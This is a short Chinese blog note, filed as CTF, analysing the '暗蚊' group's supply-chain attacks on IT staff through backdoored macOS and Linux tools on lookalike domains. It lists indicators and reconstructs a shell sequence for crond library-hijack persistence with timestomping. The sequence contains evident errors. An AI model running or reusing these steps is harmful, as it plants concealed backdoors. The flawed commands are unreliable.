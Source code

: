 ```yaml
---
title: 暗蚊黑产
date: 2024-01-21 08:19:49
categories: CTF
tags: [MAC]
---
```


>https://mp.weixin.qq.com/s/EhRX26TP9rxEKys_MzDYvQ

  **暗蚊黑产团伙采用供应链投毒、伪造官方软件网站、以及利用破解软件等多种方式传播恶意程序，主要攻击目标是IT运维人员，攻击范围涵盖了Windows、Linux以及macOS等操作系统。** 攻击水平不高，但危害很大。

## 攻击流程 

1.注册域名，投放木马，测试免杀。

2.被下载嵌入后门的运维工具-->下载远控木马-->窃取文件和主机信息

 置于匿名文件共享服务托管平台oshi.at 

3.-->下载和使用fscan、nmap内网扫描-->弱口令+漏洞等横向渗透

4.--> 部署并运行hellobot后门 

## 特点

域名精心构造

| **文件名**                                           | **恶意域名**              |
| ---------------------------------------------------- | ------------------------- |
| SecureCRT.dmg                                        | download.securecrt.vip    |
| ultraedit.dmg                                        | download.ultraedit.info   |
| Microsoft-Remote-Desktop-Beta-10.8.0(2029)_MacYY.dmg | download. rdesktophub.com |
| FinalShell_MacYY.dmg                                 | download.finallshell.cc   |
| navicat161_premium_cs.dmg                            | download.Macnavicat.com   |

2.域名注册时间不超过1年。攻击者 在3月至7月期间攻击者陆续注册了此次攻击活动中所涉及的10个C2域名 

3.载荷有上传至VT测试免杀效果。可以作为一个怀疑指标。

4.解密载荷上传至VT时间距今不超过3个月。

5.载荷的自动下载分为2个阶段，对应的url不同，可以防止被分析到落地载荷。

被植入恶意文件为libpng.dylib，下载的恶意文件命名为fs.log，centos7,libdb.so.2,/tem/.test，/Users/Shared/.fseventsd。

6.  使用**crond服务持久化**和**后门动态链接库**手法有特点 。centos7的文件，该文件运行后会在当前路径下释放一个名为libdb.so.2的文件，利用libdb.so.2文件对crond服务动态库文件进行劫持，然后将libdb.so.2文件及crond的时间属性值修改为/bin/ls的时间，最后重新启动crond服务，加载执行恶意文件libdb.so.2。经分析发现libdb.so.2文件为hellobot后门 

7. 远控木马基于开源跨平台KhepriC2框架修改，内网横向移动阶段的木马 基于开源跨平台工具goncat进行修改；
8. 后门动态库落地是通过样本自己读取自身内容，并根据“ELFELF”找到标记的偏移位置。 

## **crond服务持久化**和**后门动态链接库**手法

```
#将crond复制到当前路径
cp /usr/sbin/crond . 
#查看crond的依赖项里是否有libdb.so.2
#使用fgrep而非grep,把所有字符解释为字面含义，以避免.被解释为正则。
ldd ./crond |fgrep libdb.so.2  
#获取软链接对应的绝对路径，再获取目录路径
$P=dirname `ldd /bin/ls|grep libd1|awk '{print $3}'`;
echo $P;#获取crondb依赖项原所在路径
mv libdb.so.2 $P;/bin/ls
#修改/lib/x86_64-linux-gnu/libdb.so.2的时间属性为/bin/ls的时间
  -r, --reference=FILE   
#use this file's times instead of current time
touch -r /bin/ls $P/libdb.so.2;
#将被劫持的cornd移动会/usr/sbin，修改crond的时间属性

mv crond /usr/sbin;
#增强隐蔽性，因为各种系统程序的修改时间应该一致
touch -r /bin/ls crond;
#重启crond服务
service crond restart
```



 Linux touch命令用于修改文件或者目录的时间属性，包括存取时间和更改时间。若文件不存在，系统会建立一个新的文件 